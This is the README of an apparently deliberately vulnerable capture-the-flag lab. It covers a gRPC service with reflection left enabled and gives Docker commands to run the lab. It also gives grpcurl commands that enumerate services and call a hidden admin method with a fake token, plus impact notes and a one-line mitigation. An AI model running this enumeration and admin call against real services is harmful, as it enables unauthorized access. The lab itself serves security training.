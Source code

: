 # Lab 001: gRPC Reflection Enabled

## Vulnerability
Service Discovery API with gRPC reflection enabled, exposing hidden admin methods.

## Objective
Find and call the hidden admin method to capture the flag.

## Run the Lab
```bash
# Build and run
docker build -t grpc-001 .
docker run -p 8001:8001 grpc-001
```

## Exploit
```bash
# Install grpcurl
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# Discover services via reflection
grpcurl -plaintext localhost:8001 list

# Find hidden admin method
grpcurl -plaintext localhost:8001 list servicediscovery.ServiceDiscovery

# Call hidden admin endpoint
grpcurl -plaintext -d '{"admin_token": "fake"}' \
  localhost:8001 servicediscovery.ServiceDiscovery/AdminListAllServices
```

## Impact
Attackers can discover and access hidden admin services and internal endpoints.

## Flag
Successfully call the hidden admin method to get: `GRPC_GOAT{reflection_exposes_hidden_admin_methods}`

## Mitigation

Disable reflection in production.